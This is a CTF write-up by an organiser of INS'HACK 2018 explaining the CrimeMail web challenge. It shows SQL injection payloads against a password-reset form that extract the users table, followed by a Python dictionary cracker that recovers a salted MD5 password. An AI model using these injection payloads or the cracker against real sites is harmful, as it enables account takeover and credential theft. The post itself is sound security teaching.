




+++
title = "INS'HACK 2018: CrimeMail (web, 100)"
date = 2018-05-01
+++

Every year, the goods folks of [InSecurity INSA](http://insecurity-insa.fr/), an offensive computer hacking association, organize **INS'HACK**. If you guys aren't familiar with the event, held once a year in Lyon, France, I strongly suggest you to take a look [here](http://inshack.insecurity-insa.fr/). Who knows, maybe I'll see you at the next edition!

INS'HACK is split in two parts: first, 3 hand-picked high-quality cybersecurity conferences, the role was (extremeluy well) played this year by OVH, Mozilla, Orange and Certilience. And later in the evening, an on-site CTF! The infrastructure is no longer online as you probably guessed, but if you want to take a look at the challenges and their writeups, go to [our official GitHub repo](https://github.com/HugoDelval/inshack-2018).

As a part of the organizing team, I got to write some challenges for the event: namely [Self-congratulation](https://github.com/HugoDelval/inshack-2018/tree/master/misc/self-congratulation), [On whose authority](https://github.com/HugoDelval/inshack-2018/tree/master/network/on-whose-authority), and [CrimeMail](https://github.com/HugoDelval/inshack-2018/tree/master/web/crimemail). Today, we're here to talk about the latter, so don't go checking the solution just yet.

If you want to try and solve the challenge yourself, you can: you need to install a webserver of your choice along with PHP, and a MySQL database, then feed it the init.sql SQL script: you'll find what you need to serve in *server-files/app*, and the script in *server-files/conf*. Now, I realise asking you to NOT look at the content of these files will maybe not play well with the paranoid type, but if you want to solve it, reading the sources would make it too easy!

Let's jump into it! Let's take a look at this CrimeMail website, and the description of the challenge:



    Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.    
    Let's see if you can hack your way in his account...    
    Hint: his password's md5 is computed as follows: md5 = mdp($password + $salt) and Collins Hackle has a password which can be found in an english dictionary    

Okey, so we need to find some way to get in this Collins Hackle guy's email, and we're already left with a pretty big hint: the password is stored salted, but a dictionary-attack will be effective against it. So we can assume we'll have to find a way to steal the hash of the password along with the salt, then brute-force offline to find the password.

You probably already noticed the shady-looking "Lost your password" link. Let's go there:



Let's try some basic SQL injection, by entering `' OR 1=1 -- a`:



Bingo! The webpage displays the result of our query. Easy enough! We can now explore the database a bit, starting by extracting the name of the tables. On MySQL and SQL Server you have access to the *information_schema* table, where we can find all the metadata we're looking for. For example: `' UNION SELECT table_name FROM information_schema.tables -- a`:



That "users" table look like exactly what we need. Digging a little deeper you'll quickly find that its columns are *username*, *pass_md5*, *pass_salt* and *hint*. Here we're interested in the Collins Hackle account, and by displaying them, the username seems to be "c.hackle", the corresponding salt is "yhbG" and the hash is "f2b31b3a7a7c41093321d0c98c37f5ad".

Let's get cracking! The easy way is to find the password locally, now that you have the hash. To do so, you can try using a software like John the Ripper, or write an exploit in your favorite programming language: this is what we'll do here. You need a file of passwords you'll try, and you know the password is in an english dictionary. So you probably already have everything you need on your local (Linux) install, in */usr/share/dict* or */var/lib/dict*.

In Python 3:

```python
#!/usr/bin/env python
import sys
import hashlib

if __name__ == "__main__":
    # print usage
    if len(sys.argv) != 4:
        print("usage: {} <salt> <md5_to_crack> <path_to_dictionary>".format(sys.argv[0]))
        sys.exit()

    # hash to crack and salt
    salt = sys.argv[1].strip()
    salt_encoded = str.encode(salt)
    md5_to_crack = sys.argv[2].strip()

    # read every word (1 per line) of dictionary
    with open(sys.argv[3]) as f:
        word = f.readline()
        count = 1
        while word:
            # status progress
            if count % 1000 == 0:
                print("We're at the word n°{}".format(count))

            # prepare the strings to be hashed
            word_encoded = str.encode(word.strip())
            to_be_hashed = word_encoded + salt_encoded

            # compute the md5 hash of word+salt
            computed_md5 = hashlib.md5(to_be_hashed).hexdigest()

            # if it's the same hash
            if computed_md5 == md5_to_crack:
                print("Password cracked! It's {}".format(word))
                sys.exit()

            # read next word
            count += 1
            word = f.readline()

    print("Nothing found :(")

```

And now, calling it with the two hashes we retrieved:

```sh
$ ./cracker.py "yhbG" "f2b31b3a7a7c41093321d0c98c37f5ad" dictionary  
We're at the word n°1000  
We're at the word n°2000  
We're at the word n°3000  
...  
We're at the word n°35000  
We're at the word n°36000  
Password cracked! It's pizza  
```

Boom! The password is here, **pizza**. Congratulations, logging-in with these infos displays an email where Collins is telling a friend of his to meet him at INSHACK{s3cr3t\_l0ca1i0n}. There's your flag!

I was very pleased by how the challenge was received, we did a little feedback challenge towards the end of the CTF and CrimeMail was doing pretty well, even considered the best challenge of the CTF by some (I wouldn't go that far.. :p). So big thanks to the participating teams and as always, don't hesistate to contact me with any feedback or questions you may have.

